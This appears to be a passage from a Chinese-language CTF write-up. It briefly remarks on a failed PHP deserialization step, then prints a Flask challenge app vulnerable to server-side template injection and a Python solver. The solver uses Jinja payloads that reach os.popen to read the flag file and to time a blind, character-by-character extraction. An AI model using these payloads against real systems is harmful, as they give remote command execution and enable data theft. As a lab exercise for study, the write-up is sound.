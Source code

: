 这个确实，但是之后的`call_user_func`，我只能说 有一说一 我是没复现成功

这里的死亡wakeup永远会比call先调用，func这里还没到call_user_func就先被清空了，怎么执行？？？

## 近在眼前

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

app = Flask(__name__)
limiter = Limiter(
    app,
    key_func=get_remote_address,
    default_limits=["10000 per hour"]
)


@limiter.limit("5/second", override_defaults=True)
@app.route('/')
def index():
    return ("\x3cpre\x3e\x3ccode\x3e%s\x3c/code\x3e\x3c/pre\x3e")%open(__file__).read()


@limiter.limit("5/second", override_defaults=True)
@app.route('/ssti')
def check():
    flag = open("/app/flag.txt", 'r').read().strip()
    if "input" in request.args:
        query = request.args["input"]
        render_template_string(query)
        return "Thank you for your input."
    return "No input found."


app.run('0.0.0.0', 80)
```

属于是char-by-char类型盲注和ssti的结合，限制了1秒5次请求，所以需要我们特意限制一下

```python
import requests

_url = 'http://9a5415f7-b712-423d-b7d4-7f2d61665f95.challenge.ctf.show/ssti?input='
_payload_1 = "{%25 set flag=config.__class__.__init__.__globals__['os'].popen('cat /app/flag.txt').read()%25}{%25 set sleep=config.__class__.__init__.__globals__['os'].popen('sleep 2.5')%25}{%25if '"
_payload_2 = "' in flag%25}{{sleep.read()}}{%25endif%25}"
r = requests.session()

charset = 'abcdefghijklmnopqrstuvwxyz0123456789-_{}'
data = ''
content = 'ctfshow{'

for _ in range(40):
    for i in charset:
        data = content + i
        # print(data)
        url = _url + _payload_1 + data + _payload_2
        try:
            r.get(url=url, timeout=(2.5, 2.5))
        except Exception as e:
            content = data
```
